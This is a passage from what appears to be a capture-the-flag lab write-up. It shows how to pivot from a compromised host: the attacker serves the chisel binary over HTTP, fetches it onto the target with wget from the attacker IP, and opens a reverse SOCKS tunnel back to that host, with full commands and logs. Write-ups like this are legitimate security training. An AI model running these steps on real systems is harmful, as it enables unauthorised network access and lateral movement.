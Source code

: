 Let us download [chisel](https://github.com/jpillora/chisel) and setup a SOCKS-proxy to start scanning the docker-container.

### Setting up chisel

First, we download the [latest release of the chisel binary](https://github.com/jpillora/chisel/releases) (Version 1.7.3 at writing of this writeup). Then we start the binary in server mode and listen for connection on port 8000.

```bash
root@darkness:~# chisel server -p 8000 --reverse
2021/01/11 14:24:41 server: Reverse tunnelling enabled
2021/01/11 14:24:41 server: Fingerprint 3k+Mt9GiG/RDBbtHmVYGz5LFo1KXfNRssAaM0KBKKXY=
2021/01/11 14:24:41 server: Listening on http://0.0.0.0:8000
```

Next, let us download the binary to the server.

```bash
tomcat@VirusBucket:/dev/shm$ wget 10.10.14.15/chisel
--2021-01-11 13:33:23--  http://10.10.14.15/chisel
Connecting to 10.10.14.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8699904 (8.3M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   8.30M   827KB/s    in 10s     

2021-01-11 13:33:33 (819 KB/s) - ‘chisel’ saved [8699904/8699904]
```

```bash
root@darkness:/opt/chisel# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.205 - - [11/Jan/2021 14:27:47] "GET /chisel HTTP/1.1" 200 -
```

We successfully download the binary from our server. Let us run the binary to setup the SOCKS-tunnel.

```bash
tomcat@VirusBucket:/dev/shm$ chmod +x chisel
tomcat@VirusBucket:/dev/shm$ ./chisel client 10.10.14.15:8000 R:socks
2021/01/11 13:34:56 client: Connecting to ws://10.10.14.15:8000
2021/01/11 13:34:57 client: Connected (Latency 50.198732ms)
```

We also get a connection back on our server:

```bash
root@darkness:~# chisel server -p 8000 --reverse
2021/01/11 14:24:41 server: Reverse tunnelling enabled
2021/01/11 14:24:41 server: Fingerprint 3k+Mt9GiG/RDBbtHmVYGz5LFo1KXfNRssAaM0KBKKXY=
2021/01/11 14:24:41 server: Listening on http://0.0.0.0:8000
2021/01/11 14:29:21 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
